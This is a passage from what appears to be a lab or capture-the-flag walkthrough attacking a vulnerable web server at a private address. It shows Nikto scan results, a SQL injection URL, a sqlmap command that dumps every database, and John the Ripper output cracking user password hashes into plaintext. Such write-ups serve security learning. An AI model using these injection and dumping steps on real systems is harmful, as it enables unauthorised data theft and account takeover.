 + OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3233: /cgi-bin/printenv: Apache 2.0 default script is executable and gives server environment variables. All default scripts should be removed. It may also allow XSS types of attacks. http://www.securityfocus.com/bid/4431.
+ OSVDB-3233: /cgi-bin/test-cgi: Apache 2.0 default script is executable and reveals system information. All default scripts should be removed.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 7354 requests: 0 error(s) and 25 item(s) reported on remote host
+ End Time:           2015-05-07 00:30:03 (GMT2) (13 seconds)
---------------------------------------------------------------------------
{% endcodeblock %}

As we can see, Nikto reveals the installation of phpmyadmin and some minor
vulnerabilities. There is an information about CVE-2002-0082 too, but we didn't
find any exploit for the issue.

We connect to the web page, add a few products and try sql injection:
{% codeblock %}
http://192.168.1.120/products.php?id=2 or 1=1--+
{% endcodeblock %}

We found out that it works so we try sqlmap to dump the whole database content:
{% codeblock %}
root@kali32:~# sqlmap -u "http://192.168.1.120/products.php?id=1" -p id --dump-all
{% endcodeblock %}

This gives us the mysql sha1 hashes. After a small formating, we got:
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.1.120/dump/mysql# cat user-f3649c95.csv | cut -d, -f2-3 | sed 's#,#:#' > hashes.csv
root@kali32:~/.sqlmap/output/192.168.1.120/dump/mysql# john --format=mysql-sha1 hashes.csv
Loaded 50 password hashes with no different salts (MySQL 4.1 double-SHA-1 [128/128 SSE2 intrinsics 8x])
123456           (bwatkins)
12345            (ktso)
password         (krenfro)
12345678         (amaynard)
abc123           (cchisholm)
computer         (jalvarez)
1234             (dwestling)
qwerty           (tdeleon)
internet         (sgains)
shadow           (jfranklin)
baseball         (kwebber)
letmein          (dstevens)
dragon           (bbanter)
jordan           (mbryan)
michael          (aweiland)
michelle         (hlovell)
trustno1         (rpatel)
soccer           (dgrant)
batman           (aadams)
football         (mholland)
iloveyou         (rdominguez)
jennifer         (mrodriguez)
master           (strammel)